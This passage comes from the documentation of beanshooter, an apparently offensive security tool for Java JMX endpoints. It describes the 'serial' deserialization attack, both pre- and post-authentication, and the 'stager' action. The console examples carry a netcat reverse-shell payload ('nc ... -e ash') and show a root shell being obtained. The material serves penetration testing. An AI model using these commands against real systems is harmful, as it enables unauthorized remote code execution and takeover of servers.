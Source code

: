 If you want to know more about the technique that is implemented by the `model` action, I highly
recommend this [blog post](https://codewhitesec.blogspot.com/2023/03/jmx-exploitation-revisited.html)
by [CODE WHITE](https://twitter.com/codewhitesec) which explains it in great detail.


#### Serial

The `serial` action can be used to perform deserialization attacks on a *JMX* endpoint. By default, the action
attempts post authenticated deserialization attacks. For this to work, you target *JMX* service needs either to
allow unauthenticated access or you need valid credentials:

```console
[qtc@devbox ~]$ beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin
[+] Attemting deserialization attack on JMX endpoint.
[+]
[+] 	Creating ysoserial payload... done.
[+] 	MBeanServer attempted to deserialize the DeserializationCanary class.
[+] 	Deserialization attack was probably successful.

[qtc@devbox ~]$ nc -vlp 4444
[...]
id
uid=0(root) gid=0(root) groups=0(root)
```

*JMX* services can also be vulnerable to pre authenticated deserialization attacks. To abuse this, you can use the `--preauth` switch:

```console
[qtc@devbox ~]$ beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --preauth
[+] Attemting deserialization attack on JMX endpoint.
[+]
[+] 	Creating ysoserial payload... done.
[+] 	MBeanServer attempted to deserialize the DeserializationCanary class.
[+] 	Deserialization attack was probably successful.

[qtc@devbox ~]$ nc -vlp 4444
[...]
id
uid=0(root) gid=0(root) groups=0(root)
```

Against *JMXMP* endpoints, preauthenticated deserialization is usually possible. Unfortunately, there is no way to enumerate this properly
during the `enum` action. If you encounter a *JMXMP* endpoint, you should just give it a try.

#### Stager

The `stager` action starts a stager server that can be used to deliver *MBeans*. Creating a stager server
for *MBean* delivery is normally done automatically when using *beanshooters* `deploy` action. However,
sometimes it is required to use a standalone server. When using the `stager` action, you can either specify
the name of a builtin *MBean* to deliver (e.g. `tonka`) or the `custom` keyword. If `custom` was specified,
the `--class-name`, `--object-name` and `--jar-file` options are required.
